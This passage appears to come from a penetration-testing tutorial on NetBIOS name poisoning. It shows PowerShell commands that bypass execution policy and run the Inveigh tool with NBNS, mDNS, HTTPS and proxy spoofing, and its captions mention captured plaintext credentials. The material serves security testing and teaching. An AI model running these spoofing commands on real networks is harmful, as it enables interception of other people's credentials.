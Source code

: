 ![Captured credentials via plaintext.](media/a0b3d9a12b1315f1d97063ac05a2a9a7.png)Captured credentials via plaintext.

NetBIOS Poisoning with Powershell on victim Machine

You can poison the Netbios with a PowerShell script called [Inveigh](https://github.com/Kevin-Robertson/Inveigh) on a windows device that you have seized during the tests. This script is part of Empire, PoshC2 and other tools and can be configured as follows:

| 1 2 3  | Set-ExecutionPolicy bypass Import-Module .\\Inveigh.ps1 Invoke-Inveigh -ConsoleOutput Y -NBNS Y -mDNS Y -HTTPS Y -Proxy Y  |
|--------|----------------------------------------------------------------------------------------------------------------------------|

![Importing “Inveigh” module en executing command. There is some captured package info. (NBNS Spoofing) ](media/0c462f707bf8702fad6f4b57f502ff84.png)Importing Inveigh module en executing command. There is some captured package info. (NBNS Spoofing)
